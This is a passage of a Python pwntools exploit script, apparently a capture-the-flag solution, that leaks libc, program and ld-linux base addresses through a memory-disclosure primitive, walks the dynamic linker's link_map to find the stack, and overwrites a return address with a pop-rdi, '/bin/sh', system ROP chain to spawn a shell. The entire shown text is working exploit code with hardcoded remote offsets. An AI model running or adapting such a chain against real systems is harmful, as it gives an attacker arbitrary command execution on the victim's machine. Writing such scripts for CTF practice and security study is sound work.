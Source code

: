 ```python
        r = process(ELF_PATH)
        LD = ELF("/lib64/ld-linux-x86-64.so.2")

    # send program
    r.sendlineafter("> ", s)
    r.recvuntil("> > > > > > > > > > > > > > > > > > > > > > > > ")

    # leak libc
    libc_main = leak_addr(-48, -2, "libc_main")
    libc_base, system, bin_sh = None, None, None
    # for local
    if LOCAL:
        libc.address += libc_main - libc.symbols['__libc_start_main']
        libc_base = libc.address
        system = libc.symbols['system']
        bin_sh = str_addr("sh\x00", libc)
    # for remote
    else: 
        libc_base = libc_main - 0x21e50
        system = libc_base + 0x0000000000046590
        bin_sh = libc_base + 0x17c8c3

    # leak text base
    text_base = leak_addr(-56, -9, "text_base")
    text_base -= 0xb00

    log.info("libc_base: "+hex(libc_base))
    log.info("text_base: "+hex(text_base))
    
    # leak r_debug
    r_debug = leak_addr(0, -7, "r_debug")
    log.info("r_debug: "+hex(r_debug))

    # traverse link_map structure & leak ld-linux.so base address
    link_map_addr = r_debug + 8
    link_map_text = leak_far_addr(link_map_addr, text_base, "link_map_text")
    log.info("link_map_text: "+hex(link_map_text))
    link_map_vdso = leak_far_addr(link_map_text+24, text_base, "link_map_vdso")
    log.info("link_map_vdso: "+hex(link_map_vdso))
    link_map_libc = leak_far_addr(link_map_vdso+24, text_base, "link_map_libc")
    log.info("link_map_libc: "+hex(link_map_libc))
    link_map_ld = leak_far_addr(link_map_libc+24, text_base, "link_map_ld")
    log.info("link_map_ld: "+hex(link_map_ld))
    ld_base = leak_far_addr(link_map_ld, text_base, "ld_base")
    log.info("ld_base: "+hex(ld_base))
    # leak __libc_stack_end in ld-linux.so, get stack address
    LD.address += ld_base
    log.info("libc_stack_end: "+hex(LD.symbols['__libc_stack_end']))
    stack_addr = leak_far_addr(LD.symbols['__libc_stack_end'], text_base, "stack addr")
    log.info("stack_addr: "+hex(stack_addr))
    
    pop_rdi = text_base + 0x000000000000120c
    ret_addr = stack_addr - 216
    log.info("ret_addr: "+hex(ret_addr))
    log.info("pop_rdi: "+hex(pop_rdi))
    log.info("bin_sh: "+hex(bin_sh))
    log.info("system: "+hex(system))
    
    # overwrite return address
    write_far_addr(ret_addr, text_base, "ret_addr", pop_rdi)
    write_far_addr(ret_addr+8, text_base, "ret_addr+8", bin_sh)
    write_far_addr(ret_addr+16, text_base, "ret_addr+16", system)

```